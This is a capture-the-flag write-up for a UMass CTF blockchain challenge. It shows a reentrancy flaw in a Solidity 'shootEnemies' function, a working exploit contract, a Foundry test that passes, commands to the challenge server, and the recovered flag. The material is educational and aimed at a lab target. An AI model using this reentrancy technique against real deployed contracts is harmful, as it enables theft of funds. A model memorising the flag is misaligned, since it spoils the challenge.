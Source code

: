 # csgo_but_decentralised [490 points]

### Description
```
20vs20, 1 bullet locked in, what could posssibly go wrong

csgo_but_decentralised.zip

Author: Ghast#0001

nc csgo_but_decentralised.blockchain.ctf.umasscybersec.org 31337
```

Our objective is to kill 20 enemies, each having 20 health, however only 20 players can be added in the team, each player only have 1 bullet

The `shootEnemies()` function does not follow checks-effects-interactions pattern and is vulnerable to reentrancy
```solidity
    function shootEnemies() public {
        require(guns[msg.sender] == true, "You have to pick up a gun");
        require(bullets[msg.sender] > 0, "You have ran out of bullets");

        for (uint i = 0; i < 20; i++) {
            if (enemies[i].isDead())
                continue;
            
            enemies[i].shoot();
            break;
        }

        require (bullets[msg.sender] - 1 < bullets[msg.sender], "Nice integer underflow");
        Player player = Player(msg.sender);
        player.handleRecoil();
        
        bullets[msg.sender] = 0;
    }
```

It call back to player, which we can call `shootEnemies()` again and the bullets mapping have not set to 0

There are 20 enemies each having 20 health, meaning we have to shoot 400 times in total, to avoid the gas usage exceeding the block gas limit, we can split it to 20 transactions as 20 players can be added to the team

Exploit.sol :
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "./Chal.sol";

contract player {

    uint256 public shotsFired;

    constructor(address addr) {
        Chal(addr).grabGun();
    }

    function handleRecoil() external {
        shotsFired += 1;
        if (shotsFired < 20) {
            Chal(msg.sender).shootEnemies();
        }
    }

    function shoot(address addr) public {
        Chal(addr).shootEnemies();
    }
}

contract Exploit {

    function exploit(address addr) public {
        player p;
        p = new player(addr);
        p.shoot(addr);
    }
}
```

Deploy the exploit contract and call `exploit()` 20 times to solve the challenge, we can test in foundry first before actually running it on the network

Foundry test :
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Setup.sol";
import "../src/Exploit.sol";

contract csgoHack is Test {
    Setup setup;
    Chal chal;
    Exploit exploit;
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() public {
        vm.prank(owner);
        setup = new Setup();
        chal = setup.TARGET();
    }

    function testhack() public {
        vm.startPrank(hacker);
        exploit = new Exploit();
        
        for (uint i = 0; i < 20; i++) {
            exploit.exploit(address(chal));
        }
        console.log(setup.isSolved());
    }
}
```

Foundry test result :
```
# forge test -vv
[⠃] Compiling...
No files changed, compilation skipped

Running 1 test for test/test.t.sol:csgoHack
[PASS] testhack() (gas: 9639305)
Logs:
  true

Test result: ok. 1 passed; 0 failed; finished in 98.15ms
```

Then just deploy it on the network and get the flag

We can get the TARGET and check if it has been solved with foundry cast :
```
cast call 0x90fFfC79Bd8E203877122E5c76D2E7c123AB6b06 "isSolved()(bool)" --rpc-url http://csgo_but_decentralised.blockchain.ctf.umasscybersec.org:8545/1c90dc38-74e6-443e-8c7c-f8128eee8661

cast call 0x90fFfC79Bd8E203877122E5c76D2E7c123AB6b06 "TARGET()(address)" --rpc-url http://csgo_but_decentralised.blockchain.ctf.umasscybersec.org:8545/1c90dc38-74e6-443e-8c7c-f8128eee8661
```

```
# nc csgo_but_decentralised.blockchain.ctf.umasscybersec.org 31337
1 - launch new instance
2 - kill instance
3 - get flag
action? 3
ticket please: (choose a SECURE SECRET) REDACTED
This ticket is your TEAM SECRET. Do NOT SHARE IT!
UMASS{5h00t_t0_w1n_@mher5t}

for your safety, you should delete your instance now that you are done
```